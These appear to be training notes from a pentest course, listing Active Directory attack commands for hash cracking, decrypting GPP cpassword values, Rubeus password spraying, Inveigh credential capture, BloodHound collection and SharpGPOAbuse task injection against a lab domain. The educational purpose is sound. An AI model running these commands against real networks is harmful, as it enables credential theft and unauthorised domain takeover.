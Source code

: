 *Day 2 notes from Light Pentest LITE (Live Interactive Training Experience)  
More information at https://7minsec.com/services/training/#lplite*

# Cracking hashes: part 2
Cracking hashes - basic syntax

```
hashcat name-of-hash-file-to-crack.txt wordlist.txt
```

# Sniping cleartext creds from GPOs
Finding vulnerable GPOs with decryptable "cpassword" values:
```
findstr /S /I cpassword \\tangent.town\sysvol\tangent.town\policies\*.xml
```

Using *Get-GPPPassword.ps1* to find and decrypt the passwords:
```
Import-Module .\Get-GPPPassword.ps1 
Get-GPPPassword.ps1
```
# CrackMapExec prep
Getting registry "tweaked" to make CME more pretty:
```
reg.exe add HKCU\Console /f /v VirtualTerminalLevel /t reg_dword /d 1
``` 
# CrackMapExec: validating domain credentials
Basic CME syntax:
```
python cme smb IP.OF.A.DOMAINCONTROLLER -u USERNAME -p PASSWORD
```

# Password spraying with Rubeus
Basic spraying:
```
Rubeus.exe brute /password:PASSWORD-YOU-WANNA-SPRAY-WITH /outfile:output.txt
```
Example:
```
Rubeus.exe brute /password:Summer2021 /outfile:summer2021.txt
```

BRUTE-spraying a specific user with a list of passwords (careful!) and saving any valid creds to a file:
```
Rubeus.exe brute /user:USER-YOU-WANT-TO-SPRAY /password:TEXT-FILE-FULL-OF-PASSWORDS.txt /outfile:output.txt
```

# Capturing credentials with Inveigh
Run as an admin prompt:
```
Inveigh.exe -nbns y -llmnr y -mdns y
```

# BloodHound: setting up Neo4j
Run as an admin prompt:
```
neo4j console
```

# SharpHound: data collection
```
sharphound -c all -d tangent.town
```

# Exploiting Group Policy Objects
A sample using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse):

```
SharpGPOAbuse.exe --addcomputertask --taskname "NAME OF YOUR TASK" --author "NAME OF AUTHOR" --command "YOUR COMMAND" --arguments "YOUR ARGUMENTS" --gponame "NAME OF THE VULNERABLE GPO" 
```
